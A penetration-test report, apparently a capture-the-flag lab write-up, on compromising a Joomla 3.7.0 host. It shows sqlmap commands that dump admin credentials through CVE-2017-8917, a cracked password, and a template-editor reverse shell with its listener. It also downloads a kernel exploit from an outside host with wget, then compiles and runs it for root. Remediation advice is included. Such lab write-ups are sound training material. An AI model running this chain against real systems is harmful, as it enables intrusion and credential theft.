

<div align="center">

# 🔐 PENETRATION TESTING REPORT
## Joomla! 3.7.0 CMS – External Web Application & Host Assessment

**Target Host:** `192.168.0.106` (internal lab identifier `DC-3`)
**Assessment Type:** Black-Box Web Application Penetration Test → Full System Compromise
**Classification:** CONFIDENTIAL
**Prepared by:** MR-R00TX | Advanced Penetration Testing
**Repository / Evidence Assets:** [Advanced-Penetration-Testing/assets](https://github.com/MR-R00TX/Advanced-Penetration-Testing/tree/main/assets)

</div>

---

## Document Control

| Field | Detail |
|---|---|
| Report Title | Joomla! 3.7.0 — SQL Injection to Root Compromise |
| Engagement Type | Black-box, lab/authorized environment |
| Target IP | 192.168.0.106 |
| Tester IP | 192.168.0.107 |
| CMS In Scope | Joomla! 3.7.0 |
| Overall Risk Rating | **CRITICAL** |
| Status | Full Compromise Achieved (root) |

> **Confidentiality Notice:** This document contains sensitive technical findings relating to the security posture of the assessed system. It is intended solely as a demonstration / portfolio write-up based on an authorized lab environment and must not be used as a basis to attack systems without explicit written authorization.

---

## 1. Executive Summary

This report documents a penetration test carried out against a Joomla! 3.7.0 content management system. The objective of the engagement was to identify and exploit vulnerabilities within the externally facing web application, escalate access, and ultimately determine the maximum level of compromise achievable against the host.

The assessment identified that the target was running an outdated version of Joomla! (3.7.0) vulnerable to a **critical unauthenticated SQL Injection vulnerability (CVE‑2017‑8917)** in the `com_fields` component. This flaw was leveraged to extract the Joomla administrator's credential hash directly from the database. The hash was cracked offline, yielding valid administrator credentials, which were then used to gain authenticated access to the Joomla Administrator Control Panel.

From there, the Joomla template editor was abused to achieve **Remote Code Execution (RCE)**, granting an initial low-privileged (`www-data`) reverse shell on the underlying host. Local enumeration of the host revealed a vulnerable Linux kernel (4.4.0), which was exploited using a public eBPF privilege-escalation exploit (**CVE‑2017‑16995**) to escalate from `www-data` to **root**, resulting in full compromise of the target system and the capture of the root-level flag.

**Overall, the engagement demonstrates a complete compromise path — from an unauthenticated SQL injection to full root access — driven by outdated software, weak password hygiene, and an unpatched kernel.**

### Key Risk Summary

| # | Finding | Severity | CVE |
|---|---|---|---|
| 1 | Unauthenticated SQL Injection in `com_fields` | **Critical (9.8)** | CVE-2017-8917 |
| 2 | Weak / Dictionary-crackable Administrator Password | **High** | — |
| 3 | Remote Code Execution via Joomla Template Editor | **Critical** | — |
| 4 | Linux Kernel Local Privilege Escalation (eBPF) | **High (7.8)** | CVE-2017-16995 |
| 5 | Verbose Server Banners / Directory Enumeration Exposure | Medium | — |
| 6 | Cross-Site Request Forgery exposure on authentication forms | Low–Medium | — |

---

## 2. Scope & Rules of Engagement

| Item | Detail |
|---|---|
| In-Scope Target | `http://192.168.0.106` (Joomla! 3.7.0 web application and underlying host) |
| Testing Method | Black-box, no credentials supplied at the start |
| Permitted Activities | Network scanning, web application testing, exploitation, post-exploitation, privilege escalation |
| Environment | Isolated lab network |
| Goal | Identify vulnerabilities, demonstrate impact, achieve maximum privilege, document remediation |

---

## 3. Methodology

The assessment followed an industry-standard, phased methodology consistent with **PTES** / **OWASP Testing Guide** practices:

1. **Reconnaissance & Enumeration** — Port/service discovery, directory brute-forcing, CMS fingerprinting.
2. **Vulnerability Identification** — Automated and manual vulnerability research against discovered services and the identified CMS version.
3. **Exploitation** — Weaponizing the identified SQL injection to extract credentials; cracking and reusing those credentials.
4. **Post-Exploitation** — Gaining code execution, establishing a reverse shell, and enumerating the local host.
5. **Privilege Escalation** — Identifying and exploiting a kernel-level vulnerability to obtain root.
6. **Reporting** — Documenting evidence, risk ratings, and remediation guidance.

### Tools Used

| Tool | Purpose |
|---|---|
| `Nmap` | Port scanning, service/version detection, NSE vulnerability scripts |
| `Gobuster` | Directory & file enumeration |
| `OWASP JoomScan` | Joomla-specific vulnerability & version fingerprinting |
| `sqlmap` | Automated exploitation of the SQL injection vulnerability |
| `John the Ripper` | Offline password hash cracking |
| `Netcat` | Reverse shell listener |
| `searchsploit` / Exploit-DB | Public exploit sourcing (web + kernel) |
| eBPF `doubleput` exploit (EDB-ID 39772) | Linux kernel privilege escalation |

---

## 4. Technical Findings

### 4.1 Reconnaissance & Service Enumeration

#### 4.1.1 Port & Service Scan

An initial full-port `nmap` scan was performed against the target to identify exposed services:

```bash
nmap -sV -sC -Pn -p- 192.168.0.106
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
```

**Observation:** Only a single HTTP service was exposed, running Apache 2.4.18 on Ubuntu, with the `X-Generator` / meta banner directly confirming the use of **Joomla!** as the CMS. Banner disclosure of this kind materially aids an attacker in rapidly fingerprinting the technology stack and its known weaknesses.


#### 4.1.2 Directory & Content Enumeration

`Gobuster` was used to enumerate hidden directories and files on the web root:

```bash
gobuster dir -u http://192.168.0.106 -w /usr/share/wordlists/dirb/common.txt
```

```
administrator        (Status: 301) [Size: 322] [--> http://192.168.0.106/administrator/]
bin                  (Status: 301) [Size: 312] [--> http://192.168.0.106/bin/]
cache                (Status: 301) [Size: 314] [--> http://192.168.0.106/cache/]
components           (Status: 301) [Size: 319] [--> http://192.168.0.106/components/]
images               (Status: 301) [Size: 315] [--> http://192.168.0.106/images/]
includes             (Status: 301) [Size: 317] [--> http://192.168.0.106/includes/]
language             (Status: 301) [Size: 317] [--> http://192.168.0.106/language/]
index.php            (Status: 200) [Size: 7104]
libraries            (Status: 301) [Size: 318] [--> http://192.168.0.106/libraries/]
layouts              (Status: 301) [Size: 316] [--> http://192.168.0.106/layouts/]
media                (Status: 301) [Size: 314] [--> http://192.168.0.106/media/]
modules              (Status: 301) [Size: 316] [--> http://192.168.0.106/modules/]
plugins              (Status: 301) [Size: 316] [--> http://192.168.0.106/plugins/]
server-status        (Status: 403) [Size: 301]
templates            (Status: 301) [Size: 318] [--> http://192.168.0.106/templates/]
tmp                  (Status: 301) [Size: 312] [--> http://192.168.0.106/tmp/]
```

**Observation:** The standard Joomla! directory structure was confirmed, most notably exposing `/administrator/` (the back-end admin login) and `/templates/` (later leveraged for code execution).

#### 4.1.3 Automated Vulnerability Scanning

An Nmap NSE vulnerability scan was run against the host to surface known CVEs associated with the exposed service stack:

```bash
nmap -sV --script vuln 192.168.0.106
```

The scan flagged a large number of generic, version-based Apache httpd CVEs (low exploitability in this context — full raw output preserved in **Appendix A**), but most critically identified:

```
| http-vuln-cve2017-8917:
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute arbitrary SQL commands via unspecified vectors.
|     Disclosure date: 2017-05-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917
```

Additional lower-severity issues were also noted during this phase:

- **Slowloris DoS** (CVE-2007-6750) — the server is likely vulnerable to a resource-exhaustion denial-of-service attack.
- **CSRF exposure** on the login, password-reset, and registration forms (`/index.php/component/users/...`) — no anti-CSRF token validation observed on several of these flows.
- **Internal IP disclosure** — an internal address (`127.0.1.1`) was leaked via HTTP response headers.
- **Directory listing / informational disclosure** on several Joomla core folders.


#### 4.1.4 CMS-Specific Fingerprinting — OWASP JoomScan

`JoomScan` was run to confirm the exact Joomla version and surface CMS-specific weaknesses:

```bash
joomscan -u http://192.168.0.106
```

```
[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Checking Directory Listing
[++] directory has directory listing :
http://192.168.0.106/administrator/components
http://192.168.0.106/administrator/modules
http://192.168.0.106/administrator/templates
http://192.168.0.106/images/banners

[+] admin finder
[++] Admin page : http://192.168.0.106/administrator/
```

**Confirmed:** Joomla! **3.7.0** — a version publicly known to be vulnerable to the critical `com_fields` SQL injection vulnerability identified above.

---

### 4.2 Vulnerability Exploitation

#### 4.2.1 Identifying the Exploit Path

Public exploit research confirmed CVE-2017-8917 as an unauthenticated, blind SQL injection reachable via the `com_fields` component's `list[fullordering]` parameter.


#### 4.2.2 Database Enumeration with `sqlmap`

With the injectable parameter confirmed, `sqlmap` was used to enumerate and extract data from the backend database.

**Step 1 — Enumerate available databases:**

```bash
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```


**Step 2 — Enumerate tables inside the `joomladb` database:**

```bash
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables --batch
```


**Step 3 — Dump administrator credentials from `d8uea_users`:**

```bash
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent --dbs -p list[fullordering] \
  -D joomladb -T d8uea_users -C username,password --dump --batch
```


**Result:** The `username` and bcrypt `password` hash of the Joomla administrator account were successfully extracted directly from the database via unauthenticated SQL injection — confirming full read access to sensitive application data.

#### 4.2.3 Offline Password Hash Cracking

The extracted bcrypt hash was saved locally and cracked offline using `John the Ripper` against a standard wordlist:

```bash
john hash
```

```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Proceeding with wordlist:/usr/share/john/password.lst
snoopy           (?)
1g 0:00:00:00 DONE 2/3 (2026-10-15 07:27) 3.703g/s 266.6p/s 266.6c/s 266.6C/s 123456..wizard

$ cat hash
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

**Result:** The password was cracked in under one second against a basic wordlist, confirming the credential `admin : snoopy` — a clear indicator of **weak password hygiene** on a privileged account.

---

### 4.3 Gaining Authenticated Access & Remote Code Execution

Using the recovered credentials, authenticated access to the **Joomla Administrator Control Panel** (`/administrator/`) was obtained.


With administrative access confirmed, the built-in **Template Editor** (`Templates → Templates → [Active Template] → index.php`) was used to inject a PHP web shell / reverse-shell payload directly into a template file executed by the web server. This is a well-known Joomla post-authentication code execution technique, since Joomla does not restrict arbitrary PHP editing within templates by default for Super User accounts.


A `netcat` listener was started on the attacking machine, and the modified template page was requested via the browser to trigger the payload:

```bash
nc -lvnp 4444
```


```
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.106] 58442
Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@DC-3:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Result:** A fully interactive reverse shell was obtained as the low-privileged web server user `www-data`, confirming unauthenticated-to-authenticated-to-RCE impact chain starting from a single SQL injection vulnerability.

---

### 4.4 Local Enumeration & Privilege Escalation

#### 4.4.1 Host & Kernel Enumeration

Basic host enumeration was performed from the `www-data` shell:

```bash
uname -a
cat /etc/*release
```

```
Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04 LTS"
```

**Observation:** The host was running Linux kernel **4.4.0**, on Ubuntu 16.04 LTS — a kernel version with multiple well-documented, publicly exploitable local privilege escalation vulnerabilities.

#### 4.4.2 Kernel Exploit Identification

A search against Exploit-DB confirmed the availability of a working local privilege escalation exploit for this exact kernel branch:


The identified exploit corresponds to **EDB-ID 39772 / CVE-2017-16995** — an eBPF `BPF_MAPFD_DOUBLE_PUT` use-after-free vulnerability affecting Linux kernels prior to 4.14, allowing a local unprivileged user to obtain root privileges.

#### 4.4.3 Exploiting the Kernel (CVE-2017-16995)

The exploit archive was transferred to the target and compiled directly on the host:

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
unzip 39772.zip
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

```
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.

id
suid file detected, launching rootshell...
we have root privs now...

uid=0(root) gid=0(root) groups=0(root),33(www-data)
whoami
root
```

**Result:** Full **root** privileges were obtained on the target host via a kernel-level use-after-free vulnerability, representing complete and total compromise of the system.

#### 4.4.4 Proof of Full Compromise

```bash
cd /root
cat the-flag.txt
```

```
 __        __   _ _   ____                   _ _ _ _
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)

Congratulations are in order.
```


---

## 5. Attack Chain Summary



---

## 6. Risk Ratings (CVSS v3.1)

| Finding | CVSS v3.1 Score | Rating |
|---|---|---|
| Joomla `com_fields` SQL Injection (CVE-2017-8917) | 9.8 | Critical |
| Weak Administrator Credentials | 8.1 | High |
| RCE via Template Editor (post-auth) | 8.8 | High |
| Linux Kernel eBPF LPE (CVE-2017-16995) | 7.8 | High |
| Slowloris DoS Exposure (CVE-2007-6750) | 5.3 | Medium |
| CSRF on Authentication Forms | 4.3 | Medium |
| Verbose Banners / Directory Enumeration | 3.1 | Low |

---

## 7. Remediation Recommendations

| # | Recommendation | Priority |
|---|---|---|
| 1 | Upgrade Joomla! to the latest stable release (patches CVE-2017-8917 and other known CVEs). | **Immediate** |
| 2 | Enforce a strong password policy for all administrator/privileged accounts (minimum length, complexity, and screening against breached-password lists). | **Immediate** |
| 3 | Restrict or disable the built-in Template Editor for production environments; use file-integrity monitoring on template directories. | High |
| 4 | Patch/upgrade the Linux kernel to a version unaffected by CVE-2017-16995 (4.14+ or vendor-backported fix), and apply kernel updates on a regular cadence. | **Immediate** |
| 5 | Disable directory listing and remove/restrict access to internal administrative paths (`/administrator/`) via IP allow-listing or a WAF. | High |
| 6 | Implement anti-CSRF tokens consistently across all authentication-related forms. | Medium |
| 7 | Suppress verbose server/application banners (`Server`, `X-Generator` headers). | Medium |
| 8 | Deploy a Web Application Firewall (WAF) and enable rate-limiting/connection-limiting to mitigate Slowloris-style DoS attacks. | Medium |
| 9 | Implement centralized logging and alerting for failed authentication attempts and anomalous database query patterns. | Medium |
| 10 | Establish a routine vulnerability management and patch-cadence process for CMS, web server, and OS-level components. | Ongoing |

---

## 8. Conclusion

This engagement successfully demonstrated a complete, unauthenticated-to-root compromise chain against a Joomla! 3.7.0 deployment. The root cause was a combination of **outdated, unpatched software** (both the CMS and the underlying Linux kernel) and **weak credential management**. No single control stood between an anonymous internet-facing attacker and full root access to the host.

Prompt remediation of the items listed in Section 7 — particularly the Joomla upgrade, kernel patching, and password policy enforcement — would have independently broken this attack chain at multiple points. Anthropic/industry best practice strongly recommends a scheduled patch-management cycle and periodic re-testing to validate that these fixes remain effective over time.

---

## Appendix A — Full Nmap Vulnerability Scan Output (Raw, Unedited)

```
nmap -sV --script vuln 192.168.0.106
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-15 06:36 -0400
Nmap scan report for 192.168.0.106
Host is up (0.0028s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-internal-ip-disclosure:
|_  Internal IP Leaked: 127.0.1.1
| http-vuln-cve2017-8917:
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute arbitrary SQL commands via unspecified vectors.
|     Disclosure date: 2017-05-17
|     Extra information:
|       User: root@localhost
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917
|_      https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible. It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-sql-injection: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.0.106
|   Found the following possible CSRF vulnerabilities:
|     Path: http://192.168.0.106:80/
|     Form id: login-form
|     Form action: /index.php
|     Path: http://192.168.0.106:80/index.php
|     Form id: login-form
|     Form action: /index.php
|     Path: http://192.168.0.106:80/index.php/component/users/?view=remind&amp;Itemid=101
|     Form id: user-registration
|     Form action: /index.php/component/users/?task=remind.remind&Itemid=101
|     Path: http://192.168.0.106:80/index.php/component/users/?view=remind&amp;Itemid=101
|     Form id: login-form
|     Form action: /index.php/component/users/?Itemid=101
|     Path: http://192.168.0.106:80/index.php/component/users/?view=reset&amp;Itemid=101
|     Form id: user-registration
|     Form action: /index.php/component/users/?task=reset.request&Itemid=101
|     Path: http://192.168.0.106:80/index.php/component/users/?view=reset&amp;Itemid=101
|     Form id: login-form
|     Form action: /index.php/component/users/?Itemid=101
|     Path: http://192.168.0.106:80/index.php/2-uncategorised/1-welcome
|     Form id: login-form
|     Form action: /index.php
|     Path: http://192.168.0.106:80/index.php/component/users/?task=remind.remind&amp;Itemid=101
|     Form id: username-lbl
|     Form action: /index.php/component/users/?task=user.login&Itemid=101
|     Path: http://192.168.0.106:80/index.php/component/users/?task=remind.remind&amp;Itemid=101
|     Form id: login-form
|_    Form action: /index.php/component/users/?Itemid=101
| http-enum:
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /administrator/manifests/files/joomla.xml: Joomla version 3.7.0
|   /language/en-GB/en-GB.xml: Joomla version 3.7.0
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
```

> **Note:** The NSE `vulners` script additionally returned a long list of *generic, version-matched* Apache httpd CVEs (many dated post-assessment in the vulners feed and largely non-exploitable false-positive matches based purely on the banner version string). These were reviewed and triaged; none provided an additional practical attack path beyond the confirmed CVE-2017-8917 Joomla injection, and are therefore omitted from the main body for readability. The two genuinely actionable findings from this scan — the Joomla SQLi and the Slowloris DoS exposure — are documented above and in Section 6.

---

## Appendix B — Evidence Image Index

| # | Description | Link |
|---|---|---|
| 1 | Target environment overview | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015163151.png) |
| 2 | Vulnerability scan output | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015164612.png) |
| 3 | Exploit research 1 | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015165435.png) |
| 4 | Exploit research 2 | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015165513.png) |
| 5 | Exploit research 3 | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015165550.png) |
| 6 | sqlmap — database enumeration | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015170312.png) |
| 7 | sqlmap — table enumeration | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015170826.png) |
| 8 | sqlmap — credential dump | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015172550.png) |
| 9 | Administrator login | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015172949.png) |
| 10 | Administrator dashboard | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015173129.png) |
| 11 | Template editor access | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015173234.png) |
| 12 | Payload injection | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015173301.png) |
| 13 | Saved malicious template | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015173330.png) |
| 14 | Listener setup | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015175143.png) |
| 15 | Payload trigger | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015175211.png) |
| 16 | Kernel exploit search | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015183616.png) |
| 17 | Root escalation evidence 1 | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015183657.png) |
| 18 | Root escalation evidence 2 | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015183736.png) |
| 19 | Root escalation evidence 3 | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015183815.png) |
| 20 | Root escalation evidence 4 | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015183840.png) |
| 21 | Root flag captured | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015183907.png) |
| 22 | Final compromise summary | [view](https://raw.githubusercontent.com/MR-R00TX/Advanced-Penetration-Testing/main/assets/Pasted%20image%2020261015202711.png) |

---

<div align="center">

*End of Report*

</div>
